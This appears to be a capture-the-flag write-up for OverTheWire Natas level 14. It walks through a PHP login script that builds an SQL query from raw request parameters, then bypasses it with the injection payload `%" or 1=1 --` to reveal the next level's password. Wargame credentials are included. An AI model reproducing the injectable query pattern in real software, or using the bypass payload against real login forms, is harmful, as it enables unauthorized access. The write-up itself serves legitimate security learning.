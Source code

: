 # Natas Level 14

```bash
Username: natas14
Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
URL:      http://natas14.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas14.png" />
    <div align="center">Natas 14</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas14-view-sourcecode.png" />
    <div align="center">Natas 14 - View sourcecode</div>
</figure>

And the script is:
```php
if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas14', '<censored>'); 
    mysql_select_db('natas14', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    if(mysql_num_rows(mysql_query($query, $link)) > 0) { 
        echo "Successful login! The password for natas15 is <censored><br>"; 
    } else { 
        echo "Access denied!<br>"; 
    } 
    mysql_close($link); 
}
```

What's going on here? the script is connecting to the mysql server (*mysql_connect*), and selects the natas14 database (*mysql_select_db*).
After that, the following SQL query is being executed:
```sql
SELECT * from users where username= . $_REQUEST["username"] . and password= . $_REQUEST["password"]
```

If some rows are being retured, the password to the next level is being echoed as well.

We should use here [SQL injection](https://en.wikipedia.org/wiki/SQL_injection).

Lets assume we send the following as the "username" parameter:
```sql
%" or 1=1 -- 
```

The result query will be:

```sql
SELECT * from users where username="%" or 1=1 -- and password= . $_REQUEST["password"]
```

We just ignore the password checking and selecting all rows (1=1 always). We get:

<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas13-success-login.png" />
    <div align="center">Natas 14 - SQL injection</div>
</figure>

We got the password for the next level: **AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J**
